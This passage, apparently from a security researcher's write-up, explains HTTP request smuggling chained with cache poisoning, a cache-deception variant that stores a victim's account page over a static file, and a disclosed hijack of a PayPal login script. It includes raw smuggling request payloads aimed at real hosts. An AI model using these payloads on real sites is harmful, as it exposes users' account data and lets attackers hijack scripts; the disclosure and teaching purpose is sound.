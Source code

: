 - Ensure the 'victim' requests have a cachebuster.
- Send the 'victim' requests as fast as possible, using Turbo Intruder.
- Try to craft a prefix that triggers a response with anti-caching headers, or a status code that's unlikely to be cached.
- Target a front-end in a geographic region that's asleep.

Web Cache Deception++
What if instead of trying to mitigate the chance of attacker/user hybrid responses getting cached, we embrace it?

Instead of using a prefix designed to cause a harmful response, we could try to fetch a response containing sensitive information, with our victim's cookies:

POST / HTTP/1.1
Transfer-Encoding: blah

0

GET /account/settings HTTP/1.1
X: XGET /static/site.js HTTP/1.1
Cookie: sessionid=xyz
Front-end perspective:

GET /static/site.js HTTP/1.1


HTTP/1.1 200 OK

Your payment history
…
When a user's request for a static resource hits the poisoned socket, the response will contain their account details, and the cache will save these over the static resource. We can then retrieve the account details by loading /static/site.js from the cache.

This is effectively a new variant of the Web Cache Deception attack. It's more powerful in two key ways - it doesn't require any user-interaction, and also doesn't require that the target site lets you play with extensions. The only catch is that the attacker can't be sure where the victim's response will land.

PayPal
With request smuggling chained to cache poisoning I was able to persistently hijack numerous JavaScript files. Among those was one used on PayPal's login page: https://c.paypal.com/webstatic/r/fb/fb-all-prod.pp2.min.js.

POST /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Content-Length: 61 
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: XGET /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Connection: close

HTTP/1.1 302 Found
Location: http://skeletonscribe.net?, c.paypal.com/webstatic/ 
However, there was a problem - PayPal's login page used Content Security Policy with a script-src that killed my redirect.
